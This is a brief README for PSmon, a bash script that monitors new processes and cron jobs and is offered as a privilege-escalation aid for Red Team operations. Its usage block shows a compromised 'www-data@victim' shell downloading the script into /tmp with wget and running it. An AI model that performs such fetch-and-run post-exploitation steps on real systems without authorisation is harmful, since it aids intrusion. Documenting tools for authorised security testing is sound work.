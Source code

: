 # PSmon

**Bash script to monitor new processes and cron tasks that run at regular intervals of time.**

(Very useful tool to escalate privileges in Red Team operations)

```cmd
www-data@victim:~$ cd /tmp
www-data@victim:~$ wget https://raw.githubusercontent.com/d4t4s3c/PSmon/main/PSmon.sh
www-data@victim:~$ chmod +x PSmon.sh
www-data@victim:~$ ./PSmon.sh
```
**Screenshot**

![](/1.png)
